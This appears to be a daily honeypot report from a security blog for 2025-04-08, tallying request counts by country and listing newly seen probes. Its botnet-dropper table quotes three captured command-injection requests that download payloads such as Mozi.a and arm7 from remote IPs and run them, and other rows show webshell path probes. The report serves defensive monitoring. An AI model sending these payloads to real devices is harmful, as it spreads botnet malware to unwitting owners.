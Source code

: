 ```yaml
---
title: "Report: 2025-04-08 "
date: 2025-04-08
desciption: "Report: 2025-04-08" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-08 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 29 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2224 requests were recorded during the day, originating from 3 different countries, with a peak of 411 requests coming from NL.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |
| DE               | Germany            |
| PT               | Australia          |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                    |
|:--------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 31.170.22.205 | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(cd+/tmp;wget+http://31.170.22.205/dl18;busybox+wget+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                     |
| 5.183.209.244 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F103.15.28.149%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
| 27.43.206.225 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
|  32 |                     4 | GET /FormLogin HTTP/1.1                                    |
|  97 |                     2 | GET /ws HTTP/1.1                                           |
| 207 |                     1 | \x00\x0E8\x13                                              |
| 228 |                     1 | GET /Odin/http/call1744080873 HTTP/1.1                     |
| 232 |                     1 | GET //filefuns.php HTTP/1.1                                |
| 233 |                     1 | GET //termps.php HTTP/1.1                                  |
| 234 |                     1 | GET //wp-content/termps.php HTTP/1.1                       |
| 235 |                     1 | GET //wp-content/hplfuns.php HTTP/1.1                      |
| 236 |                     1 | GET //userfuns.php HTTP/1.1                                |
| 237 |                     1 | GET //classfuns.php HTTP/1.1                               |
| 238 |                     1 | GET //thoms.php HTTP/1.1                                   |
| 239 |                     1 | GET //tempfuns.php HTTP/1.1                                |
| 240 |                     1 | GET //wp-content/siteheads.php HTTP/1.1                    |
| 249 |                     1 | GET //siteheads.php HTTP/1.1                               |
| 250 |                     1 | GET //adminfuns.php HTTP/1.1                               |
| 258 |                     1 | GET //hplfuns.php HTTP/1.1                                 |
| 259 |                     1 | GET //connects.php HTTP/1.1                                |
| 260 |                     1 | GET //inputs.php HTTP/1.1                                  |
| 272 |                     1 | GET /Images/password_in.gif HTTP/1.1                       |
| 273 |                     1 | GET /Images/password_out.gif HTTP/1.1                      |
| 274 |                     1 | GET /Images/recipe_in.gif HTTP/1.1                         |
| 275 |                     1 | GET /Images/recipe_out.gif HTTP/1.1                        |
| 363 |                     1 | \x00\x0E8\xBA\x17\xD5\x7Ft\x97\x9F\x1E\x00\x00\x00\x00\x00 |
| 401 |                     1 | GET /OdinHttpCall1744080873 HTTP/1.1                       |
| 403 |                     1 | GET /odinhttpcall1744080873 HTTP/1.1                       |
| 404 |                     1 | \x00\x0E8\xEC\xE9\xBF\x1D\xF4/\x99\xBB\x00\x00\x00\x00\x00 |
| 410 |                     1 | \x00\x0E8\x9E\xB5#\xCF#yp\xF0\x00\x00\x00\x00\x00          |
| 444 |                     1 | \x04\x01\x01\xBB@\xE9\xA4hadm:12345\x00                    |
| 445 |                     1 | \x04\x01\x01\xBB@\xE9\xA4j\x00                             |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   411 | NL                 |
|  1 |                   335 | GB                 |
|  2 |                   334 | FR                 |
|  3 |                   223 | SC                 |
|  4 |                   193 | DE                 |
|  5 |                   184 | US                 |
|  6 |                    80 | PL                 |
|  7 |                    65 | CN                 |
|  8 |                    64 | HK                 |
|  9 |                    59 | BG                 |
| 10 |                    45 | KZ                 |
| 11 |                    38 | PT                 |
| 12 |                    31 | CH                 |
| 13 |                    16 | TR                 |
| 14 |                    16 | CA                 |
| 15 |                    14 | NG                 |
| 16 |                    12 | KR                 |
| 17 |                    10 | LV                 |
| 18 |                     9 | UA                 |
| 19 |                     9 | AO                 |
| 20 |                     9 | IT                 |
| 21 |                     7 | GH                 |
| 22 |                     7 | LT                 |
| 23 |                     6 | BE                 |
| 24 |                     6 | ZA                 |
| 25 |                     5 | IN                 |
| 26 |                     5 | BR                 |
| 27 |                     5 | SG                 |
| 28 |                     4 | JP                 |
| 29 |                     3 | VN                 |
| 30 |                     3 | IL                 |
| 31 |                     2 | DO                 |
| 32 |                     2 | MC                 |
| 33 |                     2 | TW                 |
| 34 |                     1 | PA                 |
| 35 |                     1 | HU                 |
| 36 |                     1 | ES                 |
| 37 |                     1 | IR                 |
| 38 |                     1 | RU                 |
| 39 |                     1 | ID                 |
| 40 |                     1 | AZ                 |
| 41 |                     1 | GE                 |
| 42 |                     1 | RS                 |
| 43 |                     1 | AE                 |
